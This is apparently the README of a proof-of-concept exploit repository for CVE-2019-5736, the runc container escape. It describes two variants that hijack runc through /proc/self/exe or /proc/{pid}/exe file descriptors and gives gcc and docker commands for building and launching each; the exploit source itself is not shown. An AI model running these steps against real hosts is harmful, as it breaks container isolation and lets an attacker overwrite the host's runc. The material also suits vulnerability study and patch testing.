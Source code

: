 ### Exploit for CVE-2019-5736 

#### Version 1 (original from [DragonSector](https://blog.dragonsector.pl/2019/02/cve-2019-5736-escape-from-docker-and.html))
use a malicious.so(which used by runc) with  malicious entry point (like #!/proc/self/exe) to hijack the execution of runc, and then open '/proc/self/exe' to hold the file descriptor. Then fork-exec to run another process, and the child process will inherit the file descriptor.  Finally, the child process is able to write to the fd after the runc exits.

> Notes:

> do not need privileged container;

> need a malicious entry point program. It's no problem for ```docker run```, but ```docker exec``` has to run that specific program.


* build and run 

		cd CVE-2019-5376/v1
		gcc run.c -o run -static
		gcc run.c -o libseccomp.so.2 -shared -fPIC
		docker build -t CVE-2019-5376-v1 .
		docker run CVE-2019-5376-v1


#### Version 2
start the malicious container first, and run a process (in a loop) to monitor new processes in /proc. On finding a new one, open  '/proc/{pid}/exe' to hold the file descriptor. Then it's the same like above.

> Notes

> need privileged container

> works on every ```docker exec``` command towards the container, but will not work when using ```docker run``` to start the new container

* build and run 

		cd CVE-2019-5376/v2
		gcc run.c -o run -static
		docker build -t CVE-2019-5376-v2 .
		docker run -it --privileged --name test_instance CVE-2019-5376-v2
		
		# open another terminal, and run docker exec
		docker exec -it test_instance bash
---- 

